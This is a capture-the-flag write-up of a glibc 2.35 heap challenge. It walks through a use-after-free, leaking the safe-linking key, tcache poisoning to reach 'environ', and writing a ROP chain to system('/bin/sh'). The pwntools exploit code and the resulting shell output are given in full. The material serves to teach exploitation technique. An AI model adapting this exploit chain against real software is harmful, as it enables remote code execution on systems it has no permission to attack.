



# pwn / heap

by *StateOfLimbo* for *coldboots*

---

## Challenge description
```
Pwn/heap    (2 solves / 494 points)
nordbo

Does this stuff still work?

nc io.ept.gg 30001
```

We certainly hope so!


We are given the following files
```
heap-handout/
heap-handout/heap
heap-handout/ynetd
heap-handout/libc.2.35.so
heap-handout/Dockerfile
```

## Analysis

Dockerfile on ubuntu:22.04 this time. Flag is located in /opt/flag. Using libc.2.35 which is relatively new and supposedly more secure than before. Does this stuff still work indeed, that is the question!

mandatory checksec reveals all green



There will be no stack overflow, no shellcode on the stack, exe addresses are unknown and GOT can not be overwritten.
This is normal in heap challenges so let's decompile and find another way in!

Full decompile in a separate file [Decompiled.md](decompiled.md)

```c
void printMenu(void)
{
  puts("1. Malloc new heap chunk");
  puts("2. Write to chunk");
  puts("3. Free chunk");
  puts("4. View chunk");
  puts("5. Exit");
  return;
}

undefined8 main(void)
{
  do {
    printMenu();
    switch(readNum("> ")) {
        default: puts("out of range."); return 0;
        case 1: create(); break;
        case 2: edit(); break;
        case 3: delete(); break;
        case 4: view(); break;
        case 5: exit(1);
        case 6: leak();
    }
  } while( true );
}
```

The binary implements a menu with various functions 1-5, and a secret option 6 called `leak`


```c
void create(void)
{
  *(listOfThings + getIdx() * 8) = malloc(0x10);
}

void edit(void)
{
  int iVar1 = getIdx();
  if (*(listOfThings + iVar1 * 8) == 0)
    puts("index does not exist.");
  else {
    printf("%s","value: ");
    fgets(*(listOfThings + iVar1 * 8),0x10,stdin);
  }
}

void delete(void)
{
  int iVar1 = getIdx();
  if (*(listOfThings + iVar1 * 8) == 0)
    puts("index does not exist.");
  else
    free(*(listOfThings + iVar1 * 8));
}

void view(void)
{
  int iVar1 = getIdx();
  if (*(listOfThings + iVar1 * 8) == 0)
    puts("index does not exist.");
  else
    puts(*(listOfThings + iVar1 * 8));
}

void leak(void)
{
  printf("%ld\n",free);
}
```
These are the functions we can call from the menu.
* 1:  Create
  * Allocates a chunk of memory with size 0x10, and puts it at our chosen index in the listOfThings array
  * Can overwrite a chunk pointer with a newly allocated, giving infinite allocations but causing orphaned chunks.
* 2:  Edit
  * Checks to see if a pointer exists in the array. Prints error if it is 0
  * Takes input into the memory address at the index if it exists. only 0x10 bytes with fgets, so no overflow possible.
* 3: Delete
  * Checks for null, kinda redundant tbh
  * Frees the memory at the pointer if it is not null.
  * Does NOT remove the pointer, so it leaves a dangling pointer enabling `use after free` and/or `double free`
* 4: View
  * Checks for null.. Good; dereferencing a null pointer leads to Segfault.
  * views the contents of the data at the address of the index as a string, using puts. Good for `leaks` combined with `use after free`!
* 5:  Exit
  * Calls the exit method.
* 6: Leak - secret function!
  * prints the address of free() . from libc. This literally gives us libc
* default
  * prints an `out of range` error and returns from main.
  * If we control the return pointer this can enable `ROP` - Return oriented programming. Changing the flow of returns from functions to interesting places.

## Setting up a solve script

first, create the script skeleton

```
pwn template --quiet --host=io.ept.gg --port=30001 ./heap > solve.py
```

then add `handle SIGALRM ignore` to the gdbscript part to avoid a timeout when poking through memory in gdb.
I also add `libc = ELF('./libc.2.35.so')` to the script right away. I'm sure I'll need it!

When a binary is set up this way, it's good to make functions in the solve script to interact with all the functions in the binary and all their inputs:

```python
def Malloc(Index):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'index: ', str(Index).encode())

def Write(Index, Value):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index: ', str(Index).encode())
    io.sendlineafter(b'value: ', Value)

def Free(Index):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'index: ', str(Index).encode())

def View(Index):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'index: ', str(Index).encode())

def Exit():
    io.sendlineafter(b'> ', b'5')

def Leak():
    io.sendlineafter(b'> ', b'6')
```

## Exploit

### Libc leak

Getting a libc leak can be a challenge, but this time all we have to do is call `6` in the menu for the `leak()` function and catch the output:

```python
Leak()
free_leak = int(io.recvline().strip(),10);
libc.address = free_leak - libc.sym.free
log.info(f"Libc @ { hex(libc.address) }")
```

Output:

```
[*] Libc @ 0x7ffff7d8f000
```

### Trying to break things

Checking out the `getIdx` function we see something interesting. We can only get index 0 or 1
So we only get access to two chunks of memory at a time.

```c
int getIdx(void)
{
  int idx = readNum("index: ");
  if ((1 < idx) || (idx < 0)) {
    puts("out of range.");
    idx = 0;
  }
  return idx;
}
```

Let's explore the `use after free` route and try to allocate, free and view chunks in these two positions:

```python
Malloc(0)
Malloc(1)
Free(0)
Free(1)
View(0)
value_0 = u64(io.recvline().strip().ljust(8,b'\0'))
View(1)
value_1 = u64(io.recvline().strip().ljust(8,b'\0'))
log.info(f"Value_0: { hex(value_0)}")
log.info(f"Value_1: { hex(value_1)}")
```

Output: 
```
[*] Value_0: 0x555555559
[*] Value_1: 0xc7f9
```

### Exploring the Tcache

what are these values? Lets check GDB using the `heap chunks` command.
(I am using GEF, which is an extension to GDB. pwndbg is another popular extension and should have equivalent functionality)



We can see that there has actually been allocated two chunks with size 0x20 for our data. 

The chunk ending in `0x2a0` (chunk 0) has the `0x555555559`, and the `0x2c0` one (chunk 1) actually has `0x55500000c7f9`, but because of the null bytes we can't print the upper part.. With ASLR enabled you probably wouldn't get the null bytes, and would get a full address leak. (We stick with ASLR disabled for now since we don't need this leak at the moment.)



using the command `heap bins` we can also see that these chunks are placed in a linked list called tcache. So the addresses we have leaked are actually links to the next chunk.

But why doesn't the values `0x555555559` and `0x55500000c7f9` match the addresses we see in the `heap chunks` view? That is because of an exploit mitigation in newer versions of glibc that uses the high bits of the heap address to mangle the addresses in the tcache.
Fortunately the last chunk in the tcache-list doesn't link to anything so the value is supposed to be zero. And when you xor a key with a zero-value, you get the key back. The last chunk is the `0x2a0` chunk with the value `0x555555559`. This is our key.. We can check this by xoring the two values we have..

0x555555559 ^ 0x55500000c7f9 = `0x5555555592a0`  .... It's our '0x2a0' chunk.
So the first chunk `0x2c0` links to `0x2a0` which is the end of the chain.

### Tcache poisoning

What happens if we write something random to the free chunk 1 on the tcache? 


```python
# Remember we need to xor the address with the key we leaked.
Write(1, p64(0x57A7E0F113B0^value_0))
```

```
Tcachebins[idx=0, size=0x20, count=1] _  Chunk(addr=0x5555555592c0, size=0x20, flags=PREV_INUSE)  _  [Corrupted chunk at 0x57a7e0f113b0]
```

Now chunk 1 `0x2c0` points to the address we wrote.. 

When we allocate a new chunk of size < 0x20, the tcache will give us the chunk at the top (`0x2c0`), and put the next chunk `0x57a7e0f113b0` as first chunk. The following allocation would then return `0x57a7e0f113b0`, enabling us to read or write to/from this area.

Let's try this with an actual address. We have leaked libc, so let's try to read `environ`. This is symbol in libc it's good to know about as it contains a pointer to the environment variables that are placed at the end of the stack area. Thiis enables us to attack the stack next.

```python
Write(1, p64((libc.sym.environ)^value_0)) 
Malloc(0)
Malloc(0)
View(0)
environ = u64(io.recvline().strip().ljust(8,b'\0'))
log.info(f"environ @ { hex(environ) }")
```

Output:

```
[*] environ @ 0x7fffffffe678   
```
```
gef_  tele 0x7fffffffe678
0x007fffffffe678│+0x0000: 0x007fffffffe89b  _  "SHELL=/bin/bash"
0x007fffffffe680│+0x0008: 0x007fffffffe8ab  _  "TERM_PROGRAM_VERSION=3.2a"
0x007fffffffe688│+0x0010: 0x007fffffffe8c5  _  "TMUX=/tmp/tmux-0/default,16,0"
```

Looks like we successfully leaked the stack.

To find the address of the return pointer of main, I set a breakpoint in main and do

```
gef_  p $rbp
$7 = (void *) 0x7fffffffe550
```

Return instruction pointer is 8 bytes (one 64bit word) after RBP, which gives:

RIP = RBP + 8 = 0x7fffffffe558

The diff between Environ and RIP is 0x7fffffffe678 - 0x7fffffffe558 = 0x120

so by subtracting 0x120 from the environ address we leaked, we should be able to find the return instruction pointer and hopefully write a ROP chain to get shell, even with ASLR enabled.

### Write What Where Who Why When ?

We probably need to write several times since the edit size limit is 0x10. Let's make a function out of the steps we just did, but change the `View` to a `Write`

```python
def WWW(Where, What):
    Malloc(0)
    Malloc(1)
    Free(0)
    Free(1)
    Write(1, p64(Where^value_0))
    Malloc(0)
    Malloc(0)
    Write(0, What)
```

### Testing our arbitrary write primitive

Let's try to write something into RIP!

```python
WWW(environ-0x120, 0xc01db0075)
```

Output:

```
    b'malloc(): unaligned tcache chunk detected\n'
    b'\n'
    b'Child terminated with signal = 0x6 (SIGABRT)\n'
```

We are getting alignment issues as we are trying to "allocate" a tcache chunk which is not aligned the way heap chunks usually are. it's a 16 byte alignment so we need to subtract 8 to get it right. This will overwrite one 64bit word before the RIP, which is the stored stack base pointer, RBP, of the previous stack frame. That's usually fine, so let's try:

Let's even try with a ROP chain while we're at it.

```python
rop = ROP(libc)
rop.raw(rop.ret.address) # har du aligna stacken ?
rop.system(next(libc.search(b'/bin/sh\0')))
payload = p64(0) + bytes(rop.chain())

# Trying my best to forget about C and be more pythonic.
for IDX,WAT in enumerate([ payload[i:i+16] for i in range(0,len(payload),16) ]):
    WWW(environ - 0x120-8 + 16*IDX, WAT)
```
This should have worked, but when writing 16 bytes at a time I keep getting problems with extra bytes because of the sendline-function in the Write method. After some trial and error and frustration with extra bytes it ended up like this to finally work.

```python
def Write(Index, Value):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index: ', str(Index).encode())
    if (len(Value) == 0x10):
        io.sendafter(b'value: ', Value[:0x0f])
    else:
        io.sendlineafter(b'value: ', Value)
```

Then finally send an illegal command to return from main.

```python
io.sendlineafter(b'> ', b'7'
```

```
[+] Opening connection to io.ept.gg on port 30001: Done
[*] Libc @ 0x7fb546e4d000
[*] Value_0: 0x55c96161b
[*] Value_1: 0x55cc3df7a4bb
[*] environ @ 0x7ffcaff1da08
[*] Loaded 218 cached gadgets for './libc.2.35.so'
[*] Switching to interactive mode
out of range.
$ whoami
ept
$ ls -la
total 52
drwxr-xr-x 1 root root    82 Oct 22 15:59 .
drwxr-xr-x 1 root root    17 Oct 22 15:59 ..
-rwxr-xr-x 1 root root   220 Jan  6  2022 .bash_logout
-rwxr-xr-x 1 root root  3771 Jan  6  2022 .bashrc
-rwxr-xr-x 1 root root   807 Jan  6  2022 .profile
-rwxrwxr-x 1 root root 16960 Oct 22 15:58 heap
-rwxrwxr-x 1 root root 18744 Sep 20 13:25 ynetd
$ cat /opt/flag
EPT{n0_h00ks_f0r_y0u}$  
```


